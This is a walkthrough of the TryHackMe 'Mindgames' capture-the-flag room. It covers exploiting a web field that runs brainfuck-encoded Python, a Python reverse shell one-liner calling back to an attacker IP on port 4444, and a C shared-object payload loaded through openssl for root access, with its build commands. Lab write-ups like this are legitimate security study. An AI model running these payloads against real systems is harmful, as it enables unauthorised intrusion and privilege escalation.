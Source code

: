 # MindGames

“Just a terrible idea...”

A detailed walkthrough on the [TryHackMe](https://tryhackme.com) room [Mindgames](https://tryhackme.com/room/mindgames) by 3J0SKA

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled.png)

## 1- Scanning And Enumerating

Now first we will scan the machine to find any ports. 

For scanning I will be using rustscan. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%201.png)

Here we found 2 ports, one running on port 22 (SSH) and the other one running on port 80 (HTTP).

Lets check out the HTTP page now! 

By looking at the HTTP page we can see some decoding happening.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%202.png)

And then we also have a input which can be used to decode the above decoding. But we don’t know the decoding yet.

After researching for a while, I got to know that this decoding is called `brainfuck` so I copied this `Hello, World` code and decoded it.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%203.png)

After decoding this, I found out that the input field actually takes the `brainfuck` decoding and decodes it, after decoding it executes are code.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%204.png)

And here in this case the code is written in python, So to make sure we can actually execute command on the system using python I made a simple script which executes the command `ls` on the system. 

Here’s the script : 

```python
import os;os.system("ls")
```

So here we have our script, but before we can execute it we have to covert it to `brainfuck` encoding. Here’s what I got!

So let’s execute the code.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%205.png)

Here you go! It works and we can execute python scripts on the system. Now the obvious thing to do is to execute a reverse shell on the system!

Here is the code I used to do that : 

```python
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

You have to make sure that the script doesn’t use any libraries that can’t be used without installing.

And after executing the code you should have a reverse connect! 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%206.png)

Now as we have the foothold of the system, lets get the `user.txt` file!

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%207.png)

![https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif](https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif)

## 2- Privilege Escalation!

Now we have a foothold on the system and we also got our user.txt flag, now its time to get `root.txt`

I tried all of basic privilege escalation techniques like sudo files or suid, but could do anything with them. Now we will use `[linpeas.sh](http://linpeas.sh)` to get more information.

First we have to get the file on the system, to do that lets set up a Python server.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%208.png)

Now we can `wget` the file. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%209.png)

Now you can execute the file, after giving it the permissions using `chmod`. 

So after sometime I found this in the linpeas scan.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%2010.png)

So I immediately searched for this on [`https://gtfobins.github.io`](https://gtfobins.github.io/) and found this. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%2011.png)

I couldn’t understand what this command was doing and it was also throwing a error, so I decided to find something else for the privilege escalation. 

After searching for it, I came across this pull request on github : [https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734](https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734)

And it had this C code : 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", NULL);
}
```

Now save this in a file and compile it using `gcc` on your system and then transfer the file to the victim machine. 

Make sure you save your file with the name `openssl.c` or it might not work

Here are the commands to execute : 

```bash
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so openssl.o
```

Now you should have a file named `[open.so](http://open.so)` that you have to send to the machine using wget.

After that you have to give permissions to the file. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%2012.png)

And now you can execute the script!

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%2013.png)

Hurray!!! We got the root privileges! 

Now you can find the flag at `/root/root.txt`

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Mindgames/Images/Untitled%2014.png)

![https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif](https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif)